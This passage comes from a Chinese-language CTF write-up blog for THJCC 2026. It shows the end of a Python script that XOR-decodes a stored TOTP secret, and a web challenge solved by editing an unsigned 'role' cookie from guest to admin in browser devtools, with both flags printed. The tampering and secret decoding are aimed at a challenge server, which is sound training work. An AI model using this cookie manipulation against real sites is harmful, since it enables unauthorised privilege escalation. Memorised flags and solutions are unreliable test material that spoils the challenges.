_XOR_KEY = "thjcc"

def _xor_decode(data: str, key: str) -> str:
    raw = base64.b64decode(data)
    return "".join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(raw))

secret = _xor_decode(_ENC_SECRET, _XOR_KEY)
print("secret =", secret)

totp = pyotp.TOTP(secret)
print("current code =", totp.now())
```
運行畫面：

#### Flag:
```THJCC{yeyoumeng_Wh0i5_SsRf}```

### [0422](https://ctf2026.thjcc.org/challenges#0422-65) (100)

#### 題目：
A very simple challenge about a web exploit.

Really simple. LOL.  
http://chal.thjcc.org:3000/
> Author: UmmIt Kin

#### 解題心得：
這題也是一個非常簡單的題目，我們來直接看網站：

這是一個登入介面，我們首先先嘗試看看`admin` `admin`這組帳密：

看起來失敗了，那我們就直街打開F12來看看，首先我想到的是先去確認Cookies，於是我就打開`Application\Cookies\http://chal.thjcc.org:3000`，然後看到了這個：

裡面有一個role的資料，上面寫著我是`guest`，於是我直接把它改成`admin`後重新整理網頁，於是：

#### Flag:
```THJCC{c00k135_4r3_n07_53cur3_1f_n07_51gn3d_4nd_p13453_d0_7h3_53cur3_c0d1ng_r3v13w_101111```


---

# 目前暫時更新到這裡，還會繼續更新，整理更多THJCC 2026CTF的題目！
- 2025/02/23："Welcome/Welcome to THJCC CTF" to "Misc/Lock?"
- 2025/02/24："Forensics/Ransomware" to "Forensics/CoLoR iS cOdE"
- 2025/02/25："Web/Las Vegas" to "Web/A long time ago..."
- 2026/02/26："Web/Secret File Viewer" to "Web/0422"